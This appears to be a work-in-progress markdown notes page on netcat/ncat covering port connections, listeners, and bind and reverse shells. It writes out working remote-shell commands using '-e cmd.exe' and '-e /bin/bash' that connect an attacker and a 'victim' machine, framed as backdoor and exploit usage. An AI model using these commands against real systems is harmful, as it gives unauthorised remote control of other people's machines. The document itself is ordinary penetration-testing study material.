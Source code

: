 ```yaml
---
description: >-
  Purpose? - To establish connections on open ports and create listening ports
  on local machine | REVERSE SHELL Section in development
---
```


# Netcat/Ncat - WIP

#### This tool allows us to bind to a given port of a given IP address. It is of help when trying to send files between machines, developing exploit payloads that would serve a backdoor on a target.

The scope of this document limits to a discussion of how to use [netcat](https://nc110.sourceforge.io/)/[ncat ](https://nmap.org/ncat/)to connect to clients and serve opening ports

#### Connecting vs Listening

To attempt to establish a connection with TCP port:

```bash
nc -nv [destination ip] [destination port]
```

To listen on TCP port:

```text
nc -nvlp 4444
```

#### Bind Shell: Attacker connects to a victim on listening PORTS

1. On Windows Machine - set netcat/ncat to listen on 4444/TCP:

   Once Netcat is running 'Cmd line:' prompt will appear; we will pass it the command line executable.

   `nc -nvlp 4444 -e cmd.exe`

2. On Linux Machine - set netcat to connect to 4444/TCP:

   `nc -nv 192.168.2.1 4444 -e /bin/bash`

In the Bind Shell case described in 1 & 2 the Windows machine is the victim that has been set up to listen on 4444/TCP

#### Reverse Shell: Victim connects to attacker on listening PORTS

This is the one you will be using the most

1. On Linux Machine - set netcat to listen on 4444/tcp:

   `nc -nvlp 4444`

2. On Windows Machine - connect to 192.168.2.130 machine on 4444/tcp:

   C:\nc64.exe

   Once Netcat is running 'Cmd line:' prompt will appear; we will 'pass the destination host'? the command line executable \(-e\)

   Once Netcat is running 'Cmd line:' prompt will appear; we will pass it the command line executable.

   Cmd line: -nv 192.168.2.130 4444 -e cmd.exe

